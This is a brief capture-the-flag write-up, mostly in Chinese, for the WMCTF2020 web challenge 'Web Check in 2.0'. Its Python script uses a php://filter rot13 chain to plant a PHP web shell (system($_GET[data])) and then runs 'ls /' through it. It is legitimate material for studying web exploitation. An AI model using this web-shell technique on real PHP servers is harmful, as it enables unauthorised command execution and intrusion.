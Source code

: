 title:: CTFWEB/WP/WMCTF2020 Web Check in 2.0

- tags:: CTF/伪协议
- # 思路
	- 官方题解新姿势： ((64673efa-c544-4ad7-9b9b-920b148d0b26))
	- 其他思路：可以使用zlib压缩，然后string.tolower破坏字节流，然后再解压
- # payload生成
	- ```python
	  filename = random_chars()[:5] + ".php"
	  r = base_get(url, params = {
	    "content": "php://filter/" + enc_dec.full_urlencode("string.rot13") + "|" + enc_dec.urldecode("%3C%3Fcuc%0Aflfgrz%28%24_TRG%5Bqngn%5D%29%3B%0A%3F%3E") + "/resource=" + filename
	  }, acceptable_code=None)
	  r = base_get(url + "sandbox/f9e1016a5cec370aae6a18d438dabfa5/" + filename, params = {
	    "data": "ls /"
	  }, acceptable_code=[200, 500])
	  print(r.status_code)
	  print(r.text)
	  ```